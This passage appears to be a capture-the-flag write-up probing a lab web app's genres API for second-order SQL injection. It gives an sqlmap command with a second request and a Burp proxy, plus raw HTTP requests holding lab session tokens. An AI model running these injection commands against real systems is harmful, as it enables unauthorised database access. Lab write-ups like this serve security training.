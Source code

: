 ```
```

Save both of these request to a file and then you can try to use SQLmap to exploit the SQL injection. I always include my burp proxy while using SQLmap this can help debug issues.
```
sqlmap -r SQL/sqli.txt --second-req SQL/Second_sqli.txt -p genres  --proxy http://127.0.0.1:8080
```

Using these Parameters i was not able to get successfull SQLI but looking at the results i could see that SQL injection was still a possibility because the page would show errors with some statements. Next i looked closer into what happens to the request when trying change the favourite genre's. here i discovered that all the input was being modified, All spaces were being removed.

To test this i changed my favourite genre's to a sentence with spaces in it. In the request below we can see there are spaces in the genre's parameter.
```
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6IlVqeWNUSXJ6Q1I3L2MrVmxqdzhpWEE9PSIsInZhbHVlIjoiSndjSEJLekl1dGNjNm90d2VneEVOKzh4UmpNWTRhRmp3a3JTL2R0S2E2dE5BZnNrdFo2WFhDQ2dhOFRUQmlLZmVMK3VHQ3ZpdkhsQ29QZGhGQnptQU1hbnhQanNSR0ZPb1E1aGtLOEZtN04wNEFXZkFnV0dIbm5uek1mRzJFWnkiLCJtYWMiOiI2ZmNkODE1ZjAzZDU3MjhjYThmYjdhNmQ2NDgyYTMwY2UyNGZhM2Q2YzE2MmE4MDc4ZTVkOTEwMGQyMDE5NDkxIiwidGFnIjoiIn0=
Content-Length: 27
Origin: http://10.10.11.220
Connection: close
Referer: http://10.10.11.220/gallery
Cookie: XSRF-TOKEN=eyJpdiI6IlVqeWNUSXJ6Q1I3L2MrVmxqdzhpWEE9PSIsInZhbHVlIjoiSndjSEJLekl1dGNjNm90d2VneEVOKzh4UmpNWTRhRmp3a3JTL2R0S2E2dE5BZnNrdFo2WFhDQ2dhOFRUQmlLZmVMK3VHQ3ZpdkhsQ29QZGhGQnptQU1hbnhQanNSR0ZPb1E1aGtLOEZtN04wNEFXZkFnV0dIbm5uek1mRzJFWnkiLCJtYWMiOiI2ZmNkODE1ZjAzZDU3MjhjYThmYjdhNmQ2NDgyYTMwY2UyNGZhM2Q2YzE2MmE4MDc4ZTVkOTEwMGQyMDE5NDkxIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlR0ZFZGZXBnSWp0NG90UHQrbTlSWVE9PSIsInZhbHVlIjoiT1htNVZZUmM2bW5zNmlGYjlydklyZlIxWlBsaXhZWk9HakJ2WDR1WWVpdzVaMTdNbUJ3ZTRnZXFkSllrQ3E0eVN1QUsrOFQvMnl0MzdMdUhCa1Q3aXNIOEpPcjRTSDJPTGg5YkllcElhVy9GNjN0ZXJ0N1B5NlpITmVCdjFISDIiLCJtYWMiOiJlZTk5YTViZDVkNzQyYzAzOWZiNmExZjczMjQ4M2Q1OWVkMWY5YmNjNTE5MTdjMGJlOTYyYzY1NzllOTdjMDdmIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3Mjg0NjU0LCJleHAiOjE2OTczMDYyNTQsIm5iZiI6MTY5NzI4NDY1NCwianRpIjoiZzZzNTZReGFoRG16SFNuZyIsInN1YiI6IjMxIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.tnyyIOfboawY1Wmw6jIJF_GgwKMG8AqUDzrfV-u6H2k

{"genres":"This is a test"

```

But when we refresh the Your profile page you can see that all the spaces have been removed.

**Request**
```
GET /api/v1/auth/user HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-XSRF-TOKEN: eyJpdiI6InUzYUFNMGVwcTQxUlF0QlV6Z1lTRGc9PSIsInZhbHVlIjoiWXF6VFdTRUxKNjg0SE5Vc0syMXNZNlBGMmMrdmZ2ZzZPNmV1WEdHMko5WTErY2NPeXBUM3M3WUpSRzhKQVNaSDNIRmZreC9KQXFwczgvYzFLT1lXUldWcVV0U0piMTdkaVZHVXZDTmpTbE9hcytPa3NpYnRwRkNSVVFISFlMaDMiLCJtYWMiOiJhMWU5OGFhOTYxYzgwOTBlYzFiZmQzNmE3OWYyYTVlNzA4YzYyYmNlMzc4MDYxNTIyMTM4NGQ4YTJkODY0N2FhIiwidGFnIjoiIn0=
Connection: close
Referer: http://10.10.11.220/gallery
```